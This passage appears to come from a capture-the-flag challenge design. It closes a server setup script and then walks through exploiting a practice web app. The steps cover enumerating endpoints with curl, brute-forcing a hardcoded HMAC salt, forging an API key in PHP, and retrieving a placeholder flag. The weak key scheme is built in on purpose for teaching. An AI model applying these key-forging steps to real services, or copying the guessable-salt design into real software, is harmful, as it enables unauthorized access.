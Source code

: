 ```bash
EOF2

systemctl restart apache2

echo "Setup complete. Access the web app at http://<external-ip>/secure-app/"
'
```

---

### **Exploitation Steps**

#### **1. Reconnaissance**
1. **Detect API Endpoints**:
   - Use tools like **Burp Suite** or **cURL** to enumerate `/secure-app/`:
     ```bash
     curl -v http://<external-ip>/secure-app/
     ```
   - Analyze the HTTP responses for hints about an API key parameter (e.g., `api_key`).

2. **Brute Force the API Key**:
   - The application uses an HMAC-based API key validation. The key is derived using a secret salt (`secret-salt`) and the string `valid-api-key`.
   - Use **custom scripts** or **hashcat** to brute-force the `secret-salt`.

#### **2. Exploit the Vulnerability**
1. Generate a valid API key using the discovered salt:
   ```php
   <?php
   echo hash_hmac("sha256", "valid-api-key", "secret-salt");
   ?>
   ```
2. Access the sensitive `/flag` endpoint:
   ```bash
   curl -H "api_key: <generated-key>" http://<external-ip>/secure-app/flag
   ```

3. Retrieve the flag:
   ```json
   {"flag": "CTF{This_Is_The_Flag}"}
   ```

---

### **Why This is Challenging**

1. **No Direct Indicators**:
   - Students must discover the API key mechanism by analyzing subtle hints in HTTP headers and responses.

2. **Realistic Security Layers**:
   - Fully patched system with firewalls (UFW) and WAF (ModSecurity).
   - Prepared statements and input sanitization eliminate common injection vulnerabilities.
